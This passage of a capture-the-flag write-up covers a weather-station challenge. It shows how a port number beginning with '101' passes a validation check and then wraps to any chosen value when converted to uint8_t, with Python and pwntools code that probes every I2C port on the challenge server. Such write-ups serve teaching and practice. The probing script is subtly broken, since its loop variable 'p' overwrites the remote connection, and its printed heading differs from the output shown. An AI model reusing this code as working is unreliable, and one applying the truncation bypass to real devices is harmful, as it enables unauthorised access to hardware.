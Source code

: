 So as long as we have a number starting with 101(or the others), we can
figure out a value that, when wrapped around as it is converted to a uint8
will give us any arbitrary port we wish.

It would be useful to write a function that would take an input port and
generate an exploitable port that would pass the validation function and
when converted to a `uint8_t` would wrap around to the desired port.

What we want to do is solve the equation for X `101..X % 256 = port`,
where `101..X` denotes a concatenation. But since I am bad at modular
arithmetics, I will just bruteforce the value of X.
```py
def exploit_port(port):
  i = 0
  while True:
    if int('101' + str(i)) % 256 == port:
      return '101' + str(i)
    i += 1
```

### EEPROM I2C port
The second problem is that we do not know the I2C port that would let us
program the EEPROM, we can however just send dummy read commands and if
there is no error returned, then the device should exist

Let's start by the basics:
```py
from pwn import *

p = remote('weather.2022.ctfcompetition.com',1337)
```
. We could've used 0 for the request length and do as the datasheet says
*a ping*, but the program will refuse a value of 0, so instead we just
send 1 as request length.

```py
def print_all_valid_i2c_ports():
  print('Valid I2C ports:')
  for p in range(256):
    print(f'\r\t{p}', end='', flush=True)
    command = f'r {exploit_port(p)} 1'
    p.sendafter(b'? ', command.encode('utf-8'))
    if not 'err' in p.recvline().decode('utf-8'):
      print(' X')
```

When we call that function, we get the following output:
```
Existing i2c ports:
  33 X
  101 X
  108 X
  110 X
  111 X
  119 X
```

